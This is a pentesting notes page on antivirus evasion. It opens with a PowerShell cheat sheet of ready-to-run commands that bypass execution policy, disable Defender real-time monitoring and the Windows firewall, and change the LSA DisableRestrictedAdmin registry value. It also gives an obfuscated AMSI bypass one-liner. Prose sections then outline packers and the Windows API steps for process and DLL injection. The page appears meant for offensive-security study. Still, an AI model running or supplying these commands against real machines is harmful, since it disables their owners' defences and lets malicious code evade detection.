

repository: amandaguglieri/hackinglife · page: antivirus-evasion/index.html · generator: mkdocs

---
title: Antivirus Evasion techniques
draft: false
author: amandaguglieri
TableOfContents: true
tags:
  - pentesting
  - evasion
---
# Antivirus Evasion techniques

Some tooling: [https://kleenscan.com](https://kleenscan.com/index) and [virustotal.com/](https://virustotal.com/gui/)


```powershell
# Lists available modules loaded for use.
Get-Module	

#  print the execution policy settings for each scope on a host.
Get-ExecutionPolicy -List	

# Check current execution policy. If the answer is
# - "Restricted": Ps scripts cannot run.
# - "RemoteSigned": Downloaded scripts will require the script to be signed by a trusted publisher.
Get-ExecutionPolicy

# Bypass execution policy
powershell -ep bypass

# Get current execution policy
Get-ExecutionPolicy -Scope CurrentUser

#This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.
Set-ExecutionPolicy Bypass -Scope Process	

# Set to unrestricted
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

# Enumerate AppLocker policies 
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
# If we find that a file cannot be run from a location, maybe we can try to run it from another location.

# Quickly enumerate whether we are in Full Language Mode or Constrained Language Mode.
$ExecutionContext.SessionState.LanguageMode

# Get the current Defender status.
Get-MpComputerStatus

# Deactivate antivirus from powershell session (if user has rights to do so)
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable firewall
netsh advfirewall set allprofiles state off

# Bypass AMSI
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Add a registry
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

```


## On-Disk Evasion

Modern on-disk malware obfuscation can take many forms. One of the earliest ways of avoiding detection involved the use of [_packers_](https://en.wikipedia.org/wiki/Executable_compression). like  [_UPX_](https://upx.github.io/) and other popular packers.

[_The Enigma Protector_](http://www.enigmaprotector.com/en/home.html) can be used to successfully bypass antivirus products.

##  In-Memory Evasion

[_In-Memory Injections_](https://www.endgame.com/blog/technical-blog/ten-process-injection-techniques-technical-survey-common-and-trending-process), also known as _PE Injection_, is a popular technique used to bypass antivirus products on Windows machines. Rather than obfuscating a malicious binary, this technique instead focuses on the manipulation of volatile memory.


### Remote Process Memory Injection

The first technique we are going to cover is _Remote Process Memory Injection_, which attempts to inject the payload into another valid PE that is not malicious. The most common method of doing this is by leveraging a set of [_Windows APIs_](https://en.wikipedia.org/wiki/Windows_API).

1. Use the [_OpenProcess_](https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-openprocess) function to
2. obtain a valid [_HANDLE_](https://en.wikipedia.org/wiki/Handle_\(computing\)) to a target process that we have permission to access.
3. Then, allocate memory in the context of that process by calling a Windows API such as [_VirtualAllocEx_](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex).
4. Once done, copy the malicious payload to the newly allocated memory using [_WriteProcessMemory_](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).
5.  Then, this is usually executed in memory in a separate thread using the [_CreateRemoteThread_](https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createremotethread) API.


### Regular DLL injection

Loading a malicious DLL from disk using the [_LoadLibrary_](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) API.
